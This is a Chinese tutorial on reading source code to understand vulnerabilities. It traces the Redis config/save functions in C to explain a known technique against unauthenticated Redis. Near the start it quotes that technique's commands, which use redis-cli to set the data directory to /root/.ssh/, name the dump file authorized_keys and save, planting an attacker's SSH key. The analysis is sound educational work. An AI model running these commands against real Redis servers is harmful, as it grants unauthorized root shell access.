










读代码要带有目的去读,你是要挖漏洞还是想要了解这个程序到在底干了些什么

要理解整体的时候,千万不要在某个细节里钻牛角尖

要理解细节实现的时候,记得要联想到所有可能的情况


## 必备工具

  Source Insight ,redis 源码,VS2017 ,Chakra 源码


## 从一个利用思路到源码层上的理解

  本节从一个redis 提权思路开始一步步分析,原文地址:https://www.huangdc.com/443 .这篇文章主要说的是,找到了未授权的redis 然后使用`config` 命令进行ssh key 的替换,使得攻击者可以使用ssh 免密码登陆的方式 直接getshell .我们看看文章里的关键部分

```bash

    [root@vm200-78 ~]# cat mypubkey.txt |redis-cli -h 192.168.203.224 -p 4700 -x set mypubkey
    OK
    [root@vm200-78 ~]# redis-cli -h 192.168.203.224 -p 4700
    redis 192.168.203.224:4700> config set dir /root/.ssh/
    OK
    redis 192.168.203.224:4700> config set dbfilename "authorized_keys"
    OK
    redis 192.168.203.224:4700> save
    OK
    redis 192.168.203.224:4700>

```

  把mypubkey.txt 的内容写入到了mypubkey 之后,然后使用`config set dir` 改变数据保存目录,再使用`config set dbfilename "authorized_keys"` 改变数据保存文件名,接下来使用`save` 进行数据保存,把ssh key 保存到/root/.ssh 中,下载好redis 的源码,我们来探索一下

  这个命令叫config ,那么我们到Github 上来搜索有config 的地方




  有config 字符串的地方太多了,我们换一个来搜索,找save 命令





  搜索save 的结果不是很多,在第二页就可以找到所有命令的声名了



  接下来我们来看看`src/server.c` 的代码,搜索saveCommand 



  现在可以进一步确定这个地方是命令声名的地方,`save` 是命令的字符串,`saveCommand` 是命令的入口点,那么我们搜索`config`



  现在能够定位到`config` 命令的入口函数了,继续搜索configCommand



  定位到configCommand 函数在`src/config.c` ,进去源码文件继续查找



  找到configCommand ,源码如下:

```c

    void configCommand(client *c) {
        /* Only allow CONFIG GET while loading. */
        if (server.loading && strcasecmp(c->argv[1]->ptr,"get")) {
            addReplyError(c,"Only CONFIG GET is allowed during loading");
            return;
        }

        if (c->argc == 2 && !strcasecmp(c->argv[1]->ptr,"help")) {
            const char *help[] = {
                "get <pattern> -- Return parameters matching the glob-like <pattern> and their values.",
                "set <parameter> <value> -- Set parameter to value.",
                "resetstat -- Reset statistics reported by INFO.",
                "rewrite -- Rewrite the configuration file.",
                NULL
            };
            addReplyHelp(c, help);
        } else if (!strcasecmp(c->argv[1]->ptr,"set") && c->argc == 4) {  //  注意这里,config set 命令
            configSetCommand(c);
        } else if (!strcasecmp(c->argv[1]->ptr,"get") && c->argc == 3) {
            configGetCommand(c);
        } else if (!strcasecmp(c->argv[1]->ptr,"resetstat") && c->argc == 2) {
            resetServerStats();
            resetCommandTableStats();
            addReply(c,shared.ok);
        } else if (!strcasecmp(c->argv[1]->ptr,"rewrite") && c->argc == 2) {
            if (server.configfile == NULL) {
                addReplyError(c,"The server is running without a config file");
                return;
            }
            if (rewriteConfig(server.configfile) == -1) {
                serverLog(LL_WARNING,"CONFIG REWRITE failed: %s", strerror(errno));
                addReplyErrorFormat(c,"Rewriting config file: %s", strerror(errno));
            } else {
                serverLog(LL_WARNING,"CONFIG REWRITE executed with success.");
                addReply(c,shared.ok);
            }
        } else {
             addReplyErrorFormat(c, "Unknown subcommand or wrong number of arguments for '%s'. Try CONFIG HELP",
                (char*)c->argv[1]->ptr);
            return;
        }
    }

```

  继续对`configSetCommand()` 函数进行跟踪,在`src/config.c:837` 行代码,由于代码量比较多,在此挑选一些比较重点的地方来说

```c

    void configSetCommand(client *c) {
        robj *o;
        long long ll;
        int err;
        serverAssertWithInfo(c,c->argv[2],sdsEncodedObject(c->argv[2]));
        serverAssertWithInfo(c,c->argv[3],sdsEncodedObject(c->argv[3]));
        o = c->argv[3];

        if (0) { /* this starts the config_set macros else-if chain. */

        /* Special fields that can't be handled with general macros. */
        config_set_special_field("dbfilename") {  //  命令config set dbfilename
            if (!pathIsBaseName(o->ptr)) {  //  
                addReplyError(c, "dbfilename can't be a path, just a filename");
                return;
            }
            zfree(server.rdb_filename);
            server.rdb_filename = zstrdup(o->ptr);
            
        //  ...
            
        } config_set_special_field("dir") {  //  命令config set dir
            if (chdir((char*)o->ptr) == -1) {
                addReplyErrorFormat(c,"Changing directory: %s", strerror(errno));
                return;
            }
        }
        
        //  ...
    }

```

  `config set dir` 这个命令很好理解,就是改变当前运行目录路径.`config set dbfilename` 则是设置redis 服务器的rdb_filename 字段.明白了`config set` 的工作原理之后,回来再看看`save` 命令.使用上面的方法找到`saveCommand()` 函数,在`src/rdb.c:2073` 行.

```c

    void saveCommand(client *c) {
        if (server.rdb_child_pid != -1) {
            addReplyError(c,"Background save already in progress");
            return;
        }
        rdbSaveInfo rsi, *rsiptr;
        rsiptr = rdbPopulateSaveInfo(&rsi);
        if (rdbSave(server.rdb_filename,rsiptr) == C_OK) {
            addReply(c,shared.ok);
        } else {
            addReply(c,shared.err);
        }
    }

```

  我们再来找找`rdbSave()` 函数.`CTRL + F` 搜素一下有没有在当前的代码文件里.
  


  同一个文件上有很多rdbSave 的关键字,我们要找的是函数声明,那么加上一个`(` 符号,搜素字符串`rdbSave(`
  


  这样搜素出来的结果就少很多,往上找一找,就能够直接定位到`rdbSave()` 函数,在`src/rdb.c:1042` 行

```c

    /* Save the DB on disk. Return C_ERR on error, C_OK on success. */
    int rdbSave(char *filename, rdbSaveInfo *rsi) {
        char tmpfile[256];
        char cwd[MAXPATHLEN]; /* Current working dir path for error messages. */
        FILE *fp;
        rio rdb;
        int error = 0;

        snprintf(tmpfile,256,"temp-%d.rdb", (int) getpid());  //  生成一个临时文件名
        fp = fopen(tmpfile,"w");  //  创建文件
        if (!fp) {
            char *cwdp = getcwd(cwd,MAXPATHLEN);
            serverLog(LL_WARNING,
                "Failed opening the RDB file %s (in server root dir %s) "
                "for saving: %s",
                filename,
                cwdp ? cwdp : "unknown",
                strerror(errno));
            return C_ERR;
        }

        rioInitWithFile(&rdb,fp);
        if (rdbSaveRio(&rdb,&error,RDB_SAVE_NONE,rsi) == C_ERR) {  //  保存数据到文件
            errno = error;
            goto werr;
        }

        /* Make sure data will not remain on the OS's output buffers */
        if (fflush(fp) == EOF) goto werr;
        if (fsync(fileno(fp)) == -1) goto werr;
        if (fclose(fp) == EOF) goto werr;  //  关闭文件

        /* Use RENAME to make sure the DB file is changed atomically only
         * if the generate DB file is ok. */
        if (rename(tmpfile,filename) == -1) {  //  重命名文件
            char *cwdp = getcwd(cwd,MAXPATHLEN);
            serverLog(LL_WARNING,
                "Error moving temp DB file %s on the final "
                "destination %s (in server root dir %s): %s",
                tmpfile,
                filename,
                cwdp ? cwdp : "unknown",
                strerror(errno));
            unlink(tmpfile);
            return C_ERR;
        }

        serverLog(LL_NOTICE,"DB saved on disk");
        server.dirty = 0;
        server.lastsave = time(NULL);
        server.lastbgsave_status = C_OK;
        return C_OK;

    werr:
        serverLog(LL_WARNING,"Write error saving DB on disk: %s", strerror(errno));
        fclose(fp);
        unlink(tmpfile);
        return C_ERR;
    }

```

  看完了上面的代码之后,我们知道:fopen 会在当前目录下生成一个临时文件来保存数据,那么通过`config set dir` 改变目录到`/root/.ssh/` ,`fopen()` 函数就会在`/root/.ssh/` 目录下生成文件.我们来看看`rdbSave()` 函数重命名文件部分的代码
  
```c

    if (rename(tmpfile,filename) == -1) {  //  重命名文件
        char *cwdp = getcwd(cwd,MAXPATHLEN);
        
        // ...
        
        unlink(tmpfile);
        return C_ERR;
    }

```

  filename 是rdbSave 函数的参数
  
```c

    /* Save the DB on disk. Return C_ERR on error, C_OK on success. */
    int rdbSave(char *filename, rdbSaveInfo *rsi) {

```

  然后回去看`saveCommand()` 的源码,filename 其实是server.rdb_filename

```c

    if (rdbSave(server.rdb_filename,rsiptr) == C_OK) {
    
```


## 从一个漏洞Issus 到理解这一类的漏洞挖掘方式


